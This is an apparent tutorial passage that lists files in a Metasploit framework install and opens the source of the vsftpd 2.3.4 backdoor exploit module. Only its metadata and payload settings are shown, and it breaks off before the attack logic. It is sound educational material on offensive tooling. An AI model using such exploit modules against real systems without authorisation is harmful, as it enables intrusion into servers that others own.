 ```bash
-rwxr-xr-x   1 root root  2807 Feb 24 03:22 msfd
-rwxr-xr-x   1 root root  5854 Feb 24 03:22 msfdb
-rw-r--r--   1 root root  1313 Feb 24 03:22 msf-json-rpc.ru
-rwxr-xr-x   1 root root  2212 Feb 24 03:22 msfrpc
-rwxr-xr-x   1 root root  9580 Feb 24 03:22 msfrpcd
-rwxr-xr-x   1 root root   166 Feb 24 03:22 msfupdate
-rwxr-xr-x   1 root root 14074 Feb 24 03:22 msfvenom
-rw-r--r--   1 root root   427 Feb 24 03:22 msf-ws.ru
drwxr-xr-x   2 root root  4096 Mar 10 08:47 plugins
-rwxr-xr-x   1 root root  1316 Feb 23 11:02 Rakefile
-rwxr-xr-x   1 root root   876 Feb 24 03:22 ruby
-rwxr-xr-x   1 root root   140 Feb 24 03:22 script-exploit
-rwxr-xr-x   1 root root   141 Feb 24 03:22 script-password
-rwxr-xr-x   1 root root   138 Feb 24 03:22 script-recon
drwxr-xr-x   5 root root  4096 Mar 10 08:47 scripts
drwxr-xr-x  13 root root  4096 Mar 10 08:47 tools
drwxr-xr-x   3 root root  4096 Mar 10 08:47 vendor
```

You may go to this directory and take a look at its structure and components and at the same time have a look at some metasploit scripts (they are written in Ruby programming language).

For instance edit:

`nano /usr/share/metasploit-framework/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb`

And have a look at the source-code:

 

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'VSFTPD v2.3.4 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the       VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.
      },
      'Author'         => [ 'hdm', 'MC' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'OSVDB', '73573'],
          [ 'URL', 'http://pastebin.com/AetT9sS5'],
          [ 'URL', 'http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html' ],
        ],
      'Privileged'     => true,
      'Platform'       => [ 'unix' ],
      'Arch'           => ARCH_CMD,
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => '',
```